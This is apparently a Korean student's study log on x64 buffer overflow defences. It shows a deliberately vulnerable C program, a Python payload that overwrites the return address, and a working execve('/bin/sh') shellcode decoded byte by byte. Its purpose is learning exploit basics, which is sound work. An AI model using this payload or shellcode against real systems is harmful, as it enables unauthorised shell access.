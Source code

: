 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
2. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
3. **PIE**(Position Independent Execution)
4. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}

해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.




머신코드?
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05
***\x48\x31\xc0***
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?
\x31 ==> opcode 
\xc0 ==> ModR/M 바이트. (rax 두개 쓸거다
       =xor rax, rax
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***
\x48 ==> REX prefix
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'
       =movabs rbx, 0x0068732f6e69622f
***\x53***
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )
       = push rbx
***\x48\x89\xe7***
\x48
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111
       = mov rdi, rsp (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI
000	001	010	011	100	101	110	111

      
***\x48\x31\xf6***
\x48 익숙하죠?
\x31 ==> opcode xor r/m64, r64
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110
       = xor rsi, rsi (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)

***\x48\x31\xd2***
\x48
\x31
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010
      = xor rdx, rdx (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)
***\xb0\x3b***
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)
\x3b ==> 59(system call number 59.== execve)
      = mov al, 0x3b

시스템콜 넘버는
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.

***\x0f\x05***
      = syscall (opcode)

모두 합치면?
xor rax, rax
movabs rbx,  0x0068732f6e69622f
push rbx
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov al, 0x3b
syscall 




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


